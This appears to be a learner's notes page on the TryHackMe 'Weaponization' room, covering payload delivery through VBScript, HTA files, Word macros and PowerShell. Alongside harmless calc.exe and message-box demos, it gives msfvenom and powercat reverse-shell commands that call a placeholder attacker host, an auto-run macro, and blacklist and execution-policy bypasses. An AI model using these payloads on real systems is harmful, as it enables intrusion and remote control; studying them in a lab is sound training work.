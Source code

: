# Weaponization

Weaponizatiion is when red teamers use their own crafted tools to exploit a target

## Windows Scripting Host (WSH)

Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system.
It uses VBScript

### Showing a message box

- Windows message box
  ```
  Dim message
  message = "Hello"
  MsgBox message
  ```
- run it in cmd: `wscript hello.vbs`

### Use it to run exe files

- Run an exe file with VBScript
  ```
  Set shell = WScript.CreateObject("Wscript.Shell")
  shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
  ```
- Execute it with wscript or cscript in cmd: `wscript c:\Users\thm\Desktop\calc.vbs` or `cscript.exe c:\Users\thm\Desktop\calc.vbs`
- In case of blacklist, possible to rename in txt and still run it: `wscript /e:VBScript c:\Users\thm\Desktop\payload.txt` 

## HTML Application (HTA)

### Using and `ActiveXObject to execute cmd.exe

```
<html>
<body>
<script>
        var c= 'cmd.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

- serve the payload `python3 -m http.server 8000`
- Visit the page from the target machine `http://IP-ATTACK-MACHINE:8000/payload.hta` and run it

### Reverse shell

- Create a reverse shell with msfvenom `msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP-ATTACK-MACHINE LPORT=443 -f hta-psh -o thm.hta`
- Launch a listener: `nc -lvp 443`
- The reverse shell is launched when the link is visited from the target machine
- Possible to generate and serve HTA with Metasploit framework `use exploit/windows/misc/hta_server`and we need to set LHOST, LPORT, SRVHOST, Payload we can use this payload `windows/meterpreter/reverse_tcp`
- When the link is visited in the target we get a meterpreter shell

## Visual Basic for Application (VBA)

- We need to use Word
- We open Visual Basic Editor by selecting `view → macros`
- We can give a name to our macro and click create
- We then can make another message box
```
Sub MACRONAME()
  MsgBox ("Message in a box")
End Sub
```
- We run the macro with F5
- To execute it automatically we can use after the document is open we need to use AutoOpen and Document_open
```
Sub Document_Open()
  MACRONAME
End Sub

Sub AutoOpen()
  MACRONAME
End Sub

Sub MACRONAME()
  MsgBox ("Message in a box")
End Sub
```
- we save the document in docm or doc

### Execute a bin

```
Sub ExecBin()
        Dim payload As String
        payload = "calc.exe"
        CreateObject("Wscript.Shell").Run payload,0
End Sub
```

### Use msfvenom for VBA

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKING-MACHINE-IP LPORT=443 -f vba
```

- We just need to copy the output in the file
- We set the listener with msfconsole `use exploit/multi/handler` `set payload windows/meterpreter/reverse_tcp` we set also LHOST and LPORT
- When the doc is open in the target machine we get a shell

## PowerShell

- Write something with powershell we open a text editor and put this inside: `Write-Output "something"`
- We save the file with .PS1 extension
- We can execute it from the cmd: `powershell -File thm.ps1`

### Execution policy

- See if we are restricted: `Get-ExecutionPolicy`
- Change it: `Set-ExecutionPolicy -Scope CurrentUser RemoteSigned`
- we can also bypassing when executing the script: `powershell -ex bypass -File script.ps1`

### Getting a reverse shell

- We can use [powercat](https://github.com/besimorhino/powercat)
- We set up a listener `nc -lvp 443`
- We launch powercat `powershell -c "powercat -c ATTACKING-MACHINE-IPP -p 443 -e cmd"`
- We should get a shell
 
## Resources

{% embed url="https://tryhackme.com/room/weaponization" %} TryHackMe - Weaponization {% endembed %}
{% embed url="https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development" %} Red Teaming Toolkit - infosecn1nja {% endembed %}
